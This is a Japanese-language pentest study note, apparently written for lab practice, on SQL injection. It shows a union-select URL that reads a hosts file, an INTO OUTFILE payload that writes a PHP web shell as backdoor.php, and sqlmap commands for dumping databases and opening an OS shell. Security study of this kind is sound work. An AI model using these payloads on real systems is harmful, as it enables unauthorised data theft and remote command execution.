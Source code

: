 - 攻撃要件
	- 権限

- ファイルの読み取り
	ファイルの読み取りにはload_file関数を使用する。
```sh
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
- ファイル書き込み
	ファイルの書き込みはINTO OUTFILE関数を使用する。
```sh
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

---
## ## SQLMAP
・識別および悪用をするために使用される。
- オプション
	--user-agent=SQLMAP
	--proxy http://127.0.0.1:8080
	--risk/--livel(df:1/1)
		- revel
		これはテストの範囲を指定するものである
		level1:指定したパラメータに対してテストを行う。
		level2:HTTPのクッキーヘッダに対してテストを行う。
		level3:HTTP User Agentとリファラーヘッダーに対してテストを行う。
		- risk
		リクエストの数を設定する
		![[Pasted image 20250524171539.png]]
### ### 使い方
テストするパラメータを[-p]で指定する。
```sh
# basic
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
	# テストするパラメータを[-p]で指定する。

# database dump
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
	# [--dump]を使用する。

# WebShellのアップロード
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --osshell
	--os-shellを使用する。
```

- POSTリクエストへのSQLiの実行の場合
```sh
sudo sqlmap -u http://10.10.11.113:8080/forgot/ --data="email=admin%40admin.admin"
```
